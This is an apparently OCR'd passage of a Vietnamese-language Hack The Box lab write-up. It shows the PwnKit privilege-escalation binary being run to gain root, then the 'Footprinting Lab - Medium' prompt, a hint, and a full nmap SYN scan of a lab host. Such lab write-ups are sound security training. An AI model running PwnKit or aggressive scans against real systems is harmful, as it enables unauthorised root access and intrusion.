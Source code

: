 ```zsh
2025-03-31 09:57:16 (64.3 KB/s) - ‘PwnKit’ saved [18040/18040]

ceil@NIXEASY:/tmp$ chmod +x PwnKit 
ceil@NIXEASY:/tmp$ ./PwnKit 
root@NIXEASY:/tmp# id
uid=0(root) gid=0(root) groups=0(root),1000(ceil)
```

## **Happy Hacking**...

# Footprinting Lab - Medium

This second server is a server that everyone on the internal network has access to. In our discussion with our client, we pointed out that these servers are often one of the main targets for attackers and that this server should be added to the scope.

Our customer agreed to this and added this server to our scope. Here, too, the goal remains the same. We need to find out as much information as possible about this server and find ways to use it against the server itself. For the proof and protection of customer data, a user named `HTB` has been created. Accordingly, we need to obtain the credentials of this user as proof.

HINT: Trong SQL Management Studio, chúng ta có thể chỉnh sửa 200 mục nhập cuối cùng của cơ sở dữ liệu đã chọn và đọc các mục nhập tương ứng. Chúng ta cũng cần lưu ý rằng mỗi hệ thống Windows đều có một tài khoản Administrator.
## Phân tích

- a server that everyone on the internal network has access to
- a user named `HTB` has been created
-  Để ý HINT, có lẽ là MSSQL chăng?

## Chơi với nmap

```zsh
❯ echo "10.129.244.30   inlanefreight.htb" | sudo tee -a /etc/hosts
10.129.244.30   inlanefreight.htb
```

Quá nhiều cổng cho một cuộc tình :(
```zsh
❯ sudo nmap -sS -p- -T 4 --min-rate 3000 10.129.244.30 -oN mediumlab.txt -vv
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-31 06:11 EDT
Initiating Ping Scan at 06:11
Scanning 10.129.244.30 [4 ports]
Completed Ping Scan at 06:11, 0.30s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 06:11
Scanning inlanefreight.htb (10.129.244.30) [65535 ports]
Discovered open port 445/tcp on 10.129.244.30
Discovered open port 111/tcp on 10.129.244.30
Discovered open port 135/tcp on 10.129.244.30
Discovered open port 139/tcp on 10.129.244.30
Discovered open port 3389/tcp on 10.129.244.30
Discovered open port 49666/tcp on 10.129.244.30
Discovered open port 5985/tcp on 10.129.244.30
Discovered open port 47001/tcp on 10.129.244.30
Discovered open port 49679/tcp on 10.129.244.30
Discovered open port 49664/tcp on 10.129.244.30
Discovered open port 49680/tcp on 10.129.244.30
Discovered open port 49665/tcp on 10.129.244.30
Discovered open port 49668/tcp on 10.129.244.30
Discovered open port 2049/tcp on 10.129.244.30
Discovered open port 49681/tcp on 10.129.244.30
Discovered open port 49667/tcp on 10.129.244.30
Completed SYN Stealth Scan at 06:11, 23.18s elapsed (65535 total ports)
```